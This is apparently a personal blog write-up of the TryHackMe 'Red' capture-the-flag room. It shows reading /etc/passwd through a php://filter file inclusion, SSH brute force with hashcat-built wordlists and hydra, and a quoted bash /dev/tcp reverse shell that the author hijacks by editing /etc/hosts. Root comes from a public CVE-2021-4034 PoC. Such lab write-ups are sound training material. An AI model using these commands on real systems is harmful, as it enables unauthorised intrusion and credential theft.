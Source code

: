 ```yaml
---
title: "THM - Red writeup"
date: 2024-05-02
image: /assets/images/red/red_banner.png
tags: [tryhackme, writeups, linux, nmap, path_traversal, hashcat, hydra, CVE-2021-4034]
categories: [TryHackMe, Writeup, CTF, Easy]
redirect_from: /2024/05/02/RED/
---
```


Hi,

been a long time since my last post. I have done some easy boxes on [TryHackMe](https://tryhackme.com).
And this is the writeup for one of those boxes I have done: [Red](https://tryhackme.com/r/room/redisl33t)

## Information Gathering

As always, lets start with nmap. I have my routine in using nmap:
First I set the current target ip into a variable

```bash
TARGET="TARGET_IP"
# or for fish shell, which I have choose as my default shell
set TARGET TARGET_IP
```
{: .nolineno}

With this, I always use a default port scan followed by a service scan:

```bash
nmap -Pn $TARGET -oN ports && nmap -Pn -sC -sV -p $(grep '.*(?=\/tcp)' ports | tr '\n' ',') $TARGET -oN services
```
{: .nolineno}

I only use `-p-` when I'm stuck and desperate.

This scan reveals only two open ports:

- 80 is running a webserver
- 22 running ssh

## Website

![atlas_website.png](/assets/images/red/atlas_website.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

As this is a CTF, I searched for hidden hints on the website, but couldn't find any. But one thing got my attention,
the url provides a variable:

```
?page=
```
{: .nolineno}

So I tried some LFI techniques and run [feroxbuster](https://github.com/epi052/feroxbuster) but sadly there where no useful outputs.

Then I tried [php filters](https://book.hacktricks.xyz/pentesting-web/file-inclusion#php-filter) and got some useful outputs.

```
curl http://$TARGET:80/index.php?page=php://filter/resource=/etc/passwd
```
{: .nolineno}

![curl_passwd.png](/assets/images/red/curl_passwd.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

Now there is our way in!

## First flag

I tried nearly everything, to get more information or even a real foothold without luck.

```
/home/blue/.ssh/
/home/red/.ssh/
/etc/crontab
...
```
{: .nolineno}

But then I found something on blue's home directory:

![bash_history.png](/assets/images/red/bash_history.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

Sadly the passlist.txt file was deleted, but the way to build it is well documentated and the .reminder file still persists and is readable.

Now to build our wordlist (yes I tried it with rockyou.txt before, its a waste of time) we have to do the same thing, as red obviously did.

> Download the ruleset for hashcat if you miss it on your system: [best64.rule](https://github.com/CarlosLannister/OwadeReborn/blob/master/owade/fileAnalyze/hashcatLib/best64.rule)
{: .prompt-info}

Now run the same command locally:

```bash
hashcat --stdout .reminder -r ./best64.rule > passlist.txt
```
{: .nolineno}

With the wordlist used to set the password of blue, we can now try to crack it against ssh.

```bash
hydra -I -l blue -P ./passlist.txt ssh://$TARGET
```
{: .nolineno}

It will not take for long to find the password of the user blue:

![crack_blue.png](/assets/images/red/crack_blue.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

Now log in via ssh and print out the first flag, which lays in /home/blue directory.

## Second flag

While I was searching for an opportunity for lateral movement, my session disconnected...

![suprise.png](/assets/images/red/suprise.png){: w='1212' h='668' }

And there are print outs of the user red. (simulated, for sure)

I checked for SUID, cron jobs and misconfigurations in files, but nothing useful there. And while looking around, "red" kept kicking me out of the shell. Everytime I was kicked out, I had to bruteforce the password of user blue, because it had been changed. And yeah, I already tried to change the password to avoid being kicked out:

![pwchange.png](/assets/images/red/pwchange.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

Next I looked into the running processes, and couldn't find any suspicious process running by root, but one running by red:

```
bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 &
```
{: .nolineno}

Obviously a reverse shell to a specific fqdn. Checking the `/etc/hosts` file and it contains the fqdn. I couldn't figure out where the command lays on the system. Even if I locate the command's executable, blue may not have the permission to read or execute the command.

After a while, I realized something! Every time when "red" writes a message to us, one of the two running reverse shell instances will be replaced from a new instance of the same reverse shell command:

![cronjob.png](/assets/images/red/cronjob.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

This means, that there is some cronjob running and it calls the command. Because there are two instances of the reverse shell command, we may have luck and the second command could be used to get a shell as user "red". In most modern system, if the fqdn resolves to multiple ips and the first ip is busy with an instance of the command, subsequent instances of the same command may attempt to connect to the other ip addresses associated with the fqdn.

Ok, fine. I just need to add my ip into the `/etc/hosts` file then. But there is one problem with that, the hosts file can't be written with texteditor like nano or vi. By using `lsattr` it can be seen that the file has `append-only` permission. So I had to use some sort of redirection.

```bash
echo "<MY-IP> redrules.thm" >> /etc/hosts
```
{: .nolineno}

Running a netcat listener on port 9001, I was able to get a shell as user "red".

## Root flag

The root flag is an easy one, because on user red's home, there is a `.git` directory where an executable called `pkexec` lays.

![pkexecVersion.png](/assets/images/red/pkexecVersion.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

By looking up the version of pkexec on google, there can be seen a vulnerability: CVE-2021-4034

Most of the PoC's are written in C, but I searched for a python version of the exploit, to avoid the building process, and found one on github: [joeammond's CVE-2021-4034](https://github.com/joeammond/CVE-2021-4034)

For this PoC to work, I had to change the last line, which is referring to the pkexec location. After that, just upload it to the target with a python http server open.

```bash
python -m http.server 9090
```
{: .nolineno}

![rootID.png](/assets/images/red/rootID.png){: .w-100 .rounded-10 w='1212' h='668' }

Now as root the root flag can be printed out easely...

Good luck :)

---

![darksoulsMeme.png](/assets/images/darksoulsMeme.png){: width="972" height="589" }
